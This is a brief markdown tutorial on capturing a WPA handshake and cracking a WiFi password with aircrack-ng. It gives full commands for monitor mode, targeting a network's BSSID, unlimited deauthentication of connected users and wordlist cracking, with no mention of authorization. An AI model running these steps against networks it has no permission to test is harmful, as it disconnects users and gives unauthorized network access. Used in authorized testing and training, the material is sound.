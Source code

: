 ### Set card to monitor mode
Before we begin, we need to check the status of our NIC card by typing the command 
```sh
iwconfig
```
We shall now switch our NIC to monitor mode using `airmon-ng` by typing the command shown in the screenshot below
![[Pasted image 20231213205344.png]]
We can monitor the traffic around us by using `airodump-ng` by running the following command
```sh
sudo airodump-ng wlan0mon
```
We are then able to view the different networks around us and devices conected to them, at this point we can choose the WiFi network we want to attack and perform our attack.
### Capturing traffic of our target network
We use `airodump-ng` to capture the traffic that is flowing in the network, to do this we need to get the BSSID of the network we intend to attack and the channel it operates on. To perform this we run the following command.
```sh
sudo airodump-ng -w <specify_the_name_of_the_file_where_the_traffic_will_be_stored> -c <specify_the_channel> -d <specify_bssid> wlan0mon
```
The results from this command shows the devices connected to the target network.
### Deauthentication
For us to get the WiFi handshake, we need to deauthenticate the users from the network by using `aireplay-ng` by running the following command
```sh
sudo aireplay-ng --deauth 0 -a <specify_bssid> wlan0mon
```
This command deauthenticates the user from the network, we can then go back to airodump-ng to look for the handshake as we try to connect to the network. 

```sh
sudo airodump-ng -w <specify_the_name_of_the_file_where_the_traffic_will_be_stored> -c <specify_the_channel> -d <specify_bssid> wlan0mon
```

Now that we have our handshake, we can crack the password using `aircrack-ng` by running the following command
```sh
sudo aircrack-ng <name_of_.cap_file> -w <select_wordlist_of_your_choice>
```

You should see the password of your WiFi if you use a good wordlist.